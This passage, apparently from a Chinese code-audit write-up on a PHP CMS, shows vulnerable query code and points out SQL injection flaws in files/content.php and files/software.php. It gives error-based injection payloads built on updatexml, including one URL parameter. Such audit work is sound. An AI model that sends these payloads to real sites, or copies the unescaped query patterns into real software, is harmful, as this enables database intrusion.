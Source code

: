 ```php

$query = "SELECT * FROM interaction WHERE( mail = '$mail')";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$tx = mysql_fetch_array($result);
if (!mysql_num_rows($result)){  
$touxiang = mt_rand(1,100);
}else{
$touxiang = $tx['touxiang'];
}
```

先用`'`闭合,再用`)`闭合即可,可以使用报错注入

`' or updatexml(1,concat(0x7e,(select @@version),0x7e),1))#`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031200549.png)

## files/content.php存在SQL注入

```php
<?php 
require 'inc/conn.php';
require 'inc/time.class.php';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$info = mysql_fetch_array($resul);

$id=addslashes($_GET['cid']);
$query = "SELECT * FROM content WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$content = mysql_fetch_array($resul);

$navid=$content['navclass'];
$query = "SELECT * FROM navclass WHERE id='$navid'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$navs = mysql_fetch_array($resul);

//浏览计数
$query = "UPDATE content SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
?>
```

`$query = "UPDATE content SET hit = hit+1 WHERE id=$id";`没有用`'`进行闭合,可以进行报错注入

`?r=content&cid=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1);`

## files/software.php存在SQL注入

```php
<?php
require 'inc/conn.php';
require 'inc/time.class.php';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：' . mysql_error());
$info = mysql_fetch_array($resul);
$id = addslashes($_GET['cid']);
$query = "SELECT * FROM download WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：' . mysql_error());
$download = mysql_fetch_array($resul);

//浏览计数
$query = "UPDATE download SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：' . mysql_error());
?>
```